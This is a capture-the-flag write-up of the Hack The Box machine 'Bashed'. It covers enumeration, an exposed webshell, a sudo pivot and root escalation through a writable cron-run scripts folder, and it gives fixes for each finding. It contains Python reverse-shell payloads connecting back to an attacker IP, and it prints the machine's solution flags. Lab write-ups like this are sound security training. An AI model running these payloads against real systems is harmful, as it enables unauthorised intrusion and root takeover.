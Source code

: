 #+TITLE: HTB - Bashed
#+AUTHOR: Leonardo Tamiano

* Summary

** Author
   The report was written by ~Leonardo Tamiano~ for his youtube channel ~hexdump~.

   https://www.youtube.com/@hexdump1337
   
** Scope
   In this report we analyze the security of ~bashed~, an Hack The Boox,
   root2boot machine.

   - *Name*: Bashed
   - *Difficulty*: Easy
   - *Operating System*: Linux/Ubuntu
   - *IP*: 10.10.10.68

** High-Level Overview
   The machine presented various critical vulnerabilities, which have
   to be fixed as soon as possible. By abusing these vulnerabilities
   we were able to obtain *root code execution* starting from nothing.

   Some keypoints:

   - Web servers should not expose directory indexes without proper
     authentication.
     
   - Critical assets and code should not be kept in publicly accessible
     resouces.

   - Permissions and configurations require more hardening.

   - The ~/proc~ filesystem is not protected enough

** Tools
   The tools used in order to complete the machien are shown below:

   - ~nmap~, to analyze UDP/TCP ports
   - ~gobuster~, to enumerate HTTP resources
   - ~python~, to spawn reverse shells
   - ~pspy64~, to enumerate cronjobs

   The only tool that is not instaleld by default in typical
   penetration testing oriented distributions is ~pspy64~, which can be
   found in the following github repository

   https://github.com/DominicBreuker/pspy

* Foothold (kali -> www-data)
  Enumerating the surface area with ~nmap~ we see an open port exposing
  an ~http~ server.

  *nmap -p- bashed*

  #+begin_example
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-19 07:59 EST
Nmap scan report for bashed (10.10.10.68)
Host is up (0.047s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds 
  #+end_example

  With a more specific scan we're able to recognize that the web
  server is running an ~Apache httpd 2.4.18~ within an ~ubuntu~ server.
  
  *nmap -sC -sV bashed*
  
  #+begin_example
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
  #+end_example

  By enumerating the webserver with ~gobuster~ we're able to see ~php~
  files, signaling that the application is running php code. We also
  enumerate a bunch of different directories.

  #+begin_src bash
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://bashed -x php
  #+end_src

  #+begin_example
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/12/19 08:11:39 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 301] [--> http://bashed/images/]
/.php                 (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 302] [--> http://bashed/uploads/]
/php                  (Status: 301) [Size: 298] [--> http://bashed/php/]
/css                  (Status: 301) [Size: 298] [--> http://bashed/css/]
/dev                  (Status: 301) [Size: 298] [--> http://bashed/dev/]
/js                   (Status: 301) [Size: 297] [--> http://bashed/js/]
/config.php           (Status: 200) [Size: 0]   
  #+end_example

  If we click on a directory such as ~/dev~ we're able to see the index
  of the directory.

  -----------------------------

  *Vulnerability*: Directory indexes are exposed by the webserver. This
  allows anyone to simply look at all the files present within any
  publicly accessible directory.

  *Fix*: The server configuration must be changed in order to not allow
  any of the directory indexes to be exposed without proper
  authentication.

  *Severity*: Medium

  *PoC*: Simply go to http://bashed/dev and you can see all the files.

  *Screenshot*

  [[./img/bashed-1.png]]

  -----------------------------

  Within the ~/dev/~ folder see the ~phpbash.php~ file. If we click on it
  we will obtain a webshell on the target. By definition, this
  webshell allows us to execute code on the remote target, thus
  obtaining an RCE.

  -----------------------------

  *Vulnerability*: Critical assets (~phpbash.php~, ~phpbash.min.php~) are
  present on http://bashed/dev folder, which can be used by anyone to
  obtain an RCE.

  *Fix*: Remove the critical assets as soon as possible, or make them
  not publicly accessible by anyone.

  *Severity*: Critical

  *PoC*: Simply go to http://bashed/dev/phpbash.php

  *Screenshot*

  [[./img/bashed-2.png]]

  -----------------------------  
  
* Pivoting (www-data -> scriptmanager)
  Once inside as ~www-data~, by checking the ~sudoers~ subsystem we see
  the following

  *sudo -l*

  #+begin_example
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
  #+end_example

  With this configuration we're able to pivot into the ~scriptmanager~
  account as we can execute any command as scriptmanager without any
  password required.

  -----------------------------

  *Vulnerability*: Sudoers allows ~www-data~ user to easily pivot to
  ~scriptmanager~ without proper authorization.

  *Fix*: Change the sudoers configuration in order to enforce proper
  authorization.

  *Severity*: Critical

  *PoC*:

  #+begin_src bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
  #+end_src


  *Screenshot*

  [[./img/bashed-3.png]]

  -----------------------------

  To actually pivot into the ~scriptmanager~ account, first we spawn a
  reverse shell on the remote target using the previously found
  webshell. To do this we can use the following payload, just change
  IP/PORT as needed

  #+begin_src python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.34",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  #+end_src

  Once we have a property ~tty~ on the remote target as the user
  ~www-data~ we execute the following in order to pivot into the
  ~scriptmanager~ account

  #+begin_src bash
sudo -u scriptmanager python3 -c 'import pty; pty.spawn("/bin/bash")'
  #+end_src
  
* Privilege Escalation (scriptmanager -> root)
  By using ~pspy64~ we're able to enumerate currently executing
  processes.

  #+begin_example
2023/12/19 05:46:01 CMD: UID=0     PID=1469   | python test.py 
2023/12/19 05:47:01 CMD: UID=0     PID=1475   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
  #+end_example

  and in particular we're able to understand that the ~root~ user is
  executing the following ~bash~ code every minute

  #+begin_src bash
cd /scripts;
for f in *.py; do python "$f"; done 
  #+end_src

  This means taht all scripts found within ~/scripts~ are executed by
  the root account every minute.

  -----------------------------
  
  *Vulnerability*: The ~/proc~ filesystem exposes information regarding
  the processes of all users running on the machine.

  *Fix*: Use the ~hidepid~ option when mounting the ~/proc~ filesystem in
  order to hide such information

  #+begin_src bash
mount -o remount,rw,nosuid,nodev,noexec,relatime,hidepid=2 /proc
  #+end_src

  *Severity*: Medium

  *PoC*:

  #+begin_src bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64
  #+end_src

  *Screenshot*: [[img/bashed-4.png]]
  
  -----------------------------

  By checking the ~/scripts~ folder, we also notice that we have full
  control over the folder as the ~scriptmanager~ account.

  *ls /*

  #+begin_example
...
drwxr-xr-x  18 root          root           500 Dec 19 04:34 run
drwxr-xr-x   2 root          root          4.0K Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager 4.0K Jun  2  2022 scripts
drwxr-xr-x   2 root          root          4.0K Feb 15  2017 srv
dr-xr-xr-x  13 root          root             0 Dec 19 05:22 sys
...
  #+end_example
  

  -----------------------------
  
  *Vulnerability*: Low privileged user (~scriptmanager~) has permission to
  modify or introduce code within the ~/scripts~ folder that is then run
  by high privileged user (~root~), causing a privilege escalation.

  *Fix*: Change permission so that files within the ~/scripts~ folder can
  onl be read by high privileged users

  #+begin_src bash
chown root:root /scripts
chmod 755 /scripts
  #+end_src

  *Severity*: Critical

  *PoC*:

  #+begin_src bash
cd /scripts
echo "hi" > test
cat test
  #+end_src

  *Screenshot*:

  [[./img/bashed-5.png]]
  
  -----------------------------

  To abuse this configuration we can introduce a malicious ~test.py~
  script which contains a reverse shell in ~python~. We can then wait
  for the next cronjob execution, which happens every minute, and
  obtain our shell as root

  *test.py*

  #+begin_src python
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.34",1338));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
  #+end_src
  
  [[./img/bashed-6.png]]

  And this ends the machine and the report.
  
* Loot
  The flags obtained during the activity are shown below

  - *user flag*

    #+begin_quote
649f11e6ed4c6e33405ba65634431031
    #+end_quote

  - *root flag*

    #+begin_quote
f362a833d804058d4b640a32b92c14fd
    #+end_quote

